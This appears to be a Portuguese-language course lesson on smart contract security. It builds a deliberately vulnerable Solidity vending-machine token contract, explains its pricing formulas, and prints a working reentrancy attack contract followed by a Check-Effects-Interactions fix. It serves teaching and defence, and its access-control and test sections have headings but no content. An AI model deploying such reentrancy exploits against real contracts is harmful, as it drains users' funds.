

# Aula 6.3: Implementação e Segurança de Smartcontracts

## Introdução

Bem-vindos à nossa aula sobre a implementação de smartcontracts com foco em **segurança**, onde vamos construir uma **Vending Machine** que contém uma vulnerabilidade de **reentrância**. Essa vulnerabilidade será explorada através de um ataque, e posteriormente vamos aprender como corrigir esse problema.

A segurança é um dos aspectos mais críticos no desenvolvimento de contratos inteligentes, pois bugs e vulnerabilidades podem levar à perda de fundos ou ao comportamento inesperado dos contratos. Neste contexto, a reentrância é uma das falhas mais exploradas e será o foco desta aula.

---

## Introdução à Segurança

No desenvolvimento de smartcontracts, erros de segurança podem ter consequências catastróficas. A imutabilidade dos contratos na blockchain significa que, uma vez implantados, eles não podem ser alterados, a menos que já tenham sido projetados para isso. Portanto, é essencial abordar questões de segurança logo no início do processo de desenvolvimento.

### Principais ameaças em contratos inteligentes:

- **Reentrância**: Um ataque onde uma função externa é chamada repetidamente antes que o estado do contrato seja atualizado.
- **Overflow/Underflow de Inteiros**: Problema em que números ultrapassam os limites do tipo de dado e causam comportamentos indesejados.
- **Ataques de frontrunning**: Onde transações são interceptadas e executadas antes de uma transação legítima, geralmente por causa de discrepâncias no tempo de execução.
- **Ataques de controle de acesso**: Quando funções críticas estão abertas para serem chamadas por qualquer usuário, em vez de serem protegidas por modificadores de acesso.

O bug de reentrância foi o causador do famoso hack do **DAO** em 2016, que resultou na perda de milhões de dólares em Ethereum. Hoje, vamos ver como esse tipo de vulnerabilidade funciona e como podemos mitigá-lo.

---

## Correção do bug de Access Control


### Escopo do projeto

O projeto será dividido em duas partes principais:

- **Token ERC20**: Criação de um token seguindo o padrão ERC20. O token será uma representação de uma latinha de refrigerante e será implementado para funcionar em uma Máquina de Refrigerantes, onde os usuários poderão comprar e vender latinhas de refrigerantes (tokens) com Ether.
- **Vending Machine**: Um contrato inteligente usando a biblioteca **PRBMath** que permitirá aos usuários comprar e vender tokens em troca de Ether. Esse contrato incluirá dois bugs de segurança intencionais (relacionados a **Access Control** e **Reentrancy**) que serão explorados e corrigidos nas próximas seções.

O primeiro contrato, chamado `Token`, é responsável por criar e gerenciar as "latinhas", que são os tokens que os usuários podem comprar e vender. Ele segue o padrão ERC-20, permitindo funcionalidades básicas como criação (mint) e transferência de tokens.

O segundo contrato, `VendingMachine`, atua como a "máquina de refrigerantes". Qualquer pessoa pode interagir com ela para comprar tokens com Ether. A cada compra, o preço do token aumenta 1 ETH, independente da quantidade de tokens comprados. Por exemplo, se o preço inicial de um token é 1 ETH e três compras são feitas, o novo preço será 4 ETH.

Além disso, quem possui tokens pode vendê-los de volta para a máquina, mas apenas uma "latinha" por vez. Cada vez que alguém vende, o preço do token cai 5,7%, criando uma dinâmica interessante de oferta e demanda. A máquina precisa ter Ether disponível para honrar as vendas, e os preços são ajustados dinamicamente após cada transação.

Esse modelo simula um sistema financeiro básico onde o preço dos ativos (tokens) é ajustado com base nas transações de compra e venda, refletindo uma dinâmica semelhante à de mercados reais, com flutuações de preço controladas diretamente pela interação dos usuários com o contrato.Além disso vamos ver na prática o impacto de 2 vulnerabidades o AccessControl e o Reentrancy.

Esta abordagem oferece um exemplo prático e didático de como contratos inteligentes podem ser utilizados para criar mercados automatizados de compra e venda de ativos digitais e como problemas de segurança afetam esses mercados, introduzindo conceitos fundamentais de economia tokenizada, matemática financeira e segurança de softeare no ambiente de blockchain.

### Tokenomics do Projeto

O projeto possui uma dinâmica simples de compra e venda de tokens com variação de preço a cada transação. Vamos detalhar as regras e as fórmulas que governam esse comportamento.

1. **Compras de Tokens**

Para as compras, o preço do token aumenta em **1 ether** a cada compra, independentemente da quantidade de tokens adquiridos. Se o preço inicial é 1 ether, após $(n)$ compras, o preço final $P_{(n)}$ será dado pela fórmula:

$$
P_{(n)} = 1 + n \cdot 1 \text{ ether}
$$

Onde $(n)$ é o número de compras efetuadas.

2. **Vendas de Tokens**

As vendas de tokens são feitas um por vez, e a cada venda o preço diminui em **5,7%**. Isso significa que, se o preço inicial é $P_{(\text{inicial})}$, após uma venda o preço final $ P_{(\text{final})} $ será:

$$
P_{(\text{final})} = P_{(\text{inicial})} \cdot d
$$

Onde $d = 0.943$ ou seja, o conjugado do decrecimo $1 - 0.057 = 0.943$ que representa a queda de 5,7%.

Se um usuário realizar $(k)$ vendas consecutivas, o preço final $P_{(final)} $ será dado pela fórmula:

$$
P_{(final)} = P_{(\text{inicial})} \cdot d^k
$$

Onde $(k)$ é o número de vendas realizadas e $(d)$ é o fator de decréscimo.

3. **Comportamento Geral**

Ao considerar múltiplas compras e vendas, o retorno $V_{(n)}$ pode ser descrito pelo seguinte somatório:

$$
V_{(n)} = \sum_{k=1}^n P_{(final)} \cdot d^k
$$

Onde $V$ é o retorno, $(n$) o número de tokens (e ao mesmo tempo número de vendas consecutivas já que é possivel apenas uma venda por token).

O valor total recebido pode ser expresso como uma soma geométrica:

$$
V_{(n)} = P_{(final)} \cdot \frac{1 - d^k}{1 - d}
$$

**Por exemplo:**

- Se o investidor comprou 10 Tokens a um preço inicial $P_{(inicial)} = 1\text{ ether}$ e a após a compra o preco final é $P_{(final)}=2\text{ ether}$:

$$

V_{(10)} = 2 \cdot \frac{1 - 0.943^{10}}{1 - 0.943} ≈ 15,577\text{ ether}


$$

Esse modelo reflete a variação do preço do token à medida que transações ocorrem, com o preço subindo linearmente nas compras e caindo exponencialmente nas vendas devido ao fator $ d = 0.943 $ que equivale a $-5.7\%$ em cada venda.

4. **Gráfico de Compra x Venda**

No gráfico abaixo podemos ver que é possivel obter lucro comprando até $27\text{ tokens}$.




## Implementando uma Vending Machine

A **Vending Machine** é um contrato que permite aos usuários comprar e vender tokens ERC-20, simulando uma máquina de vendas automática. O contrato contém funções para:

- Comprar tokens com ETH.
- Vender tokens de volta por ETH.

```bash
forge install --no-commit PaulRBerg/prb-math@release-v4
```


## Explicação do Bug de Reentrância

1. O problema está na função `sellTokens`.
2. Quando um contrato recebe Ether, a função `receive` é chamada automaticamente.
3. Se a função `receive` do contrato atacante chamar de volta a função `sellTokens` antes que o contrato "vítima" finalize sua execução, ele pode entrar de novo no contrato de forma recursiva.
4. O problema é que o contrato "vítima" só atualiza o estado (como o saldo do usuário) no final da execução da função.
5. Isso permite que a reentrância aconteça repetidamente usando o estado anterior, já que o estado só é alterado após todas as chamadas recursivas. Isso permite drenar os fundos do contrato.

---

## Escrevendo um ataque para a função `sellTokens`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {VendingMachine} from "./VendingMachine.sol";
import {Token} from "./Token.sol";

contract ReentrancyAttack {
    VendingMachine public vendingMachine;
    Token public token;
    uint8 counter = 9;

    constructor(address _vendingMachine, address _token) {
        vendingMachine = VendingMachine(_vendingMachine);
        token = Token(_token);
    }

    function run() external payable {
        vendingMachine.buyTokens{value: 10 ether}();
        token.approve(address(vendingMachine), type(uint256).max);

        vendingMachine.sellTokens();
    }

    receive() external payable {
        // Executa o ataque de reentrância, chamando `sellTokens` repetidamente enquanto houver saldo
        bool victimBalance = address(vendingMachine).balance >= vendingMachine.price();
        bool contractBalance = counter > 0;

        if (victimBalance && contractBalance) {
            counter -= 1;
            vendingMachine.sellTokens();
        }
    }
}
```

## Criando teste para executar o Ataque

---

## Corrigindo a Vulnerabilidade

A correção para esse tipo de ataque é simples, mas extremamente importante. Precisamos garantir que o estado do contrato seja atualizado **antes** de realizar qualquer transferência de ETH para o usuário. Isso pode ser feito reorganizando a função `sellTokens` para seguir o padrão **"verifique-efeitos-interaja"** (Check-Effects-Interactions).

```solidity
function sellTokens() external {
    if (token.balanceOf(msg.sender) < 1) {
        revert YouNotHaveEnoughTokens();
    } else if (address(this).balance < _price.unwrap()) {
        revert VendingMachineNotHaveETH();
    }

    // Atualiza o estado antes de interagir com o contrato externo
    try token.transferFrom(msg.sender, address(this), 1e18) {
        emit TokensSold(msg.sender, 1e18, _price.unwrap());

        // Ajusta o preço antes da interação externa
        _price = calculateNewPrice();
    } catch (bytes memory transfer_error) {
        assembly {
            revert(add(transfer_error, 32), mload(transfer_error))
        }
    }

    // Só depois de atualizar o estado, transferimos o ETH
    (bool ok, bytes memory data_error) = msg.sender.call{value: _price.unwrap()}("");
    if (!ok) {
        assembly {
            revert(add(data_error, 32), mload(data_error))
        }
    }
}
```

Agora, o estado do contrato é atualizado antes de transferirmos ETH para o usuário, prevenindo a reentrância.

---

## Encerramento do Curso

Com esta última aula, cobrimos os aspectos críticos do **desenvolvimento seguro de smartcontracts**, desde a introdução à **EVM**, passando pela criação de **tokens ERC-20**, até a identificação e correção de **vulnerabilidades de reentrância** em um contrato prático.

---

## Recapitulação

Nesta aula, abordamos:

- A **implementação de uma Vending Machine** para compra e venda de tokens ERC-20.
- A introdução à **segurança em contratos inteligentes**, com foco no ataque de reentrância.
- A escrita de um **contrato de ataque** para explorar a vulnerabilidade de reentrância.
- A **correção da vulnerabilidade** aplicando o padrão "verifique-efeitos-interaja".

---

## Lição de Casa

1. Implementar a **Vending Machine** em um ambiente local.
2. Reproduzir o **ataque de reentrância** para ver como ele funciona na prática.
3. Corrigir a vulnerabilidade de reentrância no contrato e testar novamente.
4. Explorar outras vulnerabilidades comuns, como **overflow** e **underflow**, e pesquisar como preveni-las.

---

## Próxima Aula

Na próxima aula, vamos concluir o curso entendando como integrar o Dev com o Ops.
